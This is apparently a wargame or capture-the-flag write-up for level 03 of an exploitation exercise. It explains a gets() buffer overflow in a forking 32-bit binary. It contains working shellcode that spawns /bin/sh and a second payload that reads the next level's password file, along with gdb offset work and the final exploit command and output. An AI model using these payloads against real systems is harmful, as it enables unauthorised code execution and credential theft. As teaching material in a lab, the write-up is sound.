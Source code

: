 ## LEVEL 03
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level03.asm) and the [source file](./src/level03.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```

For this level the usage of buffer overflow is possible.

---

I recommend that you read the entire source code because this level features complex code. My explanation will be brief, because it utilizes the same technique as many previous levels. If you encounter any difficulties in understanding, I suggest referring to the previous levels and my [rainfall](https://github.com/mathias-mrsn/rainfall) repository. I'm confident that you will find the answers to your questions there.

First thing I notice is that the program use `gets` who has a hugh vulnerability that we already used in the first levels of rainfall. So I will use it again.

```c
gets(local_var_20);
```

The second thing I noticed is the usage of `fork` for the first time. Essentially, `fork` creates a duplicate of the process, including its entire memory. Therefore, if we want to overwrite a specific address, we need to follow the child process using GDB. To achieve this, we can utilize the `follow-fork-mode` option.

```bash
(gdb) set follow-fork-mode child
```

I export the shellcode inside environment variable `SHELLCODE` and easily find the address of it.

```bash
export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now we can launch gdb and find the length between the buffer and where the return address is stored. Also called the EIP offset.

```bash
(gdb) x/x $ebp+4
0xffffd6ac:	0xf7e45513
(gdb) x/x $esp+0x20
0xffffd610:	0x00000000
```

The EIP offset is 0x9c. Now we can use the same technique as the previous levels to overwrite the return address. Now we just need to address the address of the environment variable `SHELLCODE` to overwrite the address of the return address with it.

```bash
(gdb) x/s *((char**)environ)
0xffffd844:	 "SHELLCODE=\220\220\220\220\220\220\220\220
```

The address of the environment variable `SHELLCODE` is 0xffffd844. I add 0x20 to the address to jump over the environment variable name and reach the NOP. The final address is 0xffffd864.

Now we have everything we need to exploit this level. 

```bash
$ (python -c 'print "\x90"*156 + "\x44\xd8\xff\xff"'; cat -) | ./level04
Give me some shellcode, k
no exec() for you
```

No this doesn't seem to work. But why ?

```c
local_var_a8 = ptrace(3, local_var_ac, 0x2c, 0);
```

If we look this line that is executed in the parent process, we can see that the parent process is waiting for the child process to execute the `exec` syscall. If the child process doesn't execute the `exec` syscall, the parent process will kill the child process. And this is exactly what is happening here. The child process is killed before it can execute the `exec` syscall.

So I have to use code injection through `SHELLCODE` environment variable but this code must not execute `exec()`.

I use [this]("https://shell-storm.org/shellcode/index.html") website that I used in the level2 of rainfall to find the perfect shellcode. And I found it.

```shell
$ export SHELLCODE=$(python -c 'print "\x90"*64 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"')
```

This shellcode only use libc functions already loaded inside the compiled binary. So it doesn't need to execute `exec()`, it only use C functions. Now let's try it.

```bash
$ (python -c 'print "\x90"*156 + "\x64\xd8\xff\xff"') | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```

---

*Source :*

*https://sourceware.org/gdb/onlinedocs/gdb/Forks.html*